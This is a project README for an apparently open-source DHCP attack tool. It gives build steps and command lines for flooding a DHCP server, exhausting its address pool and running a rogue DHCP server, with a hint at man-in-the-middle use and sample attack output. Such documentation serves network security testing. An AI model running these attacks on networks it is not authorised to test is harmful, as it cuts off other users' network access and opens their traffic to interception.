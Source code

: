 ![](https://img.shields.io/badge/Language-C++-orange.svg)
![](https://img.shields.io/badge/version-1.0.0-green.svg)
[![GPLv3 License](https://img.shields.io/badge/License-GPLv3-blue.svg)](http://www.gnu.org/licenses/gpl-3.0.html)

# Dstar :hammer:
This tool implement various DHCP attacks and can be used to make experiments and test on __your network__!

Supported features:
- Flood -> Flood DHCP server with large amount of DHCP discover messages (this attack does not acquire addresses!)
- Starvation -> Try to acquire all addresses in DHCP pool, you can use this option with a rogue DHCP server... MITM? :smirk:
- Built-in rogue DHCP server

# Prerequisites #

    $ sudo apt-get install -y build-essential cmake zlib1g-dev

# Setting up dstar #

First of all getting the code from repository:

    $ git clone https://github.com/jacopodl/dstar

Compile it with followings command:

    $ cd dstar
    $ git submodule init && git submodule update
    $ cmake .
    $ make

Or if you are very busy:

    $ ./build.sh

# Usage example #
Flood DHCP server with discover messages:

    $ sudo ./dstar %interface% --flood

Exhaust DHCP pool and release all addresses on exit:

    $ sudo ./dstar %interface% --starvation

without release addresses:

    $ sudo ./dstar %interface% --starvation --no-release
    
Setting up rogue DHCP server with the stolen addresses:

    $ sudo ./dstar %interface% --starvation --server

Getting help with:

    $ ./dstar --help
    
# Action snapshot :camera:

    $ sudo ./dstar %interface% --starvation

    @@@@@@@    @@@@@@   @@@@@@@   @@@@@@   @@@@@@@
    @@@@@@@@  @@@@@@@   @@@@@@@  @@@@@@@@  @@@@@@@@
    @@!  @@@  !@@         @@!    @@!  @@@  @@!  @@@
    !@!  @!@  !@!         !@!    !@!  @!@  !@!  @!@
    @!@  !@!  !!@@!!      @!!    @!@!@!@!  @!@!!@!
    !@!  !!!   !!@!!!     !!!    !!!@!!!!  !!@!@!
    !!:  !!!       !:!    !!:    !!:  !!!  !!: :!!
    :!:  !:!      !:!     :!:    :!:  !:!  :!:  !:!
     :::: ::  :::: ::      ::    ::   :::  ::   :::
    :: :  :   :: : :       :      :   : :   :   : :
                                                     vX.x.x
    
    
    [<---] DHCP DISCOVER
    [--->] DHCP OFFER
    [<---] DHCP REQUEST
    [--->V] DHCP ACK
    	Ip:192.168.1.99 - MAC:52:c5:b9:35:0c:42 lease(s):21600
    
    [<---] DHCP DISCOVER
    [--->] DHCP OFFER
    [<---] DHCP REQUEST
    [--->V] DHCP ACK
    	Ip:192.168.1.118 - MAC:12:3c:09:28:ac:cb lease(s):21600
    
    [<---] DHCP DISCOVER
    ^CStopping...
    Releasing addresses...
    All done!

# Possible improvements: #
- Multithread capability
- DHCPv6
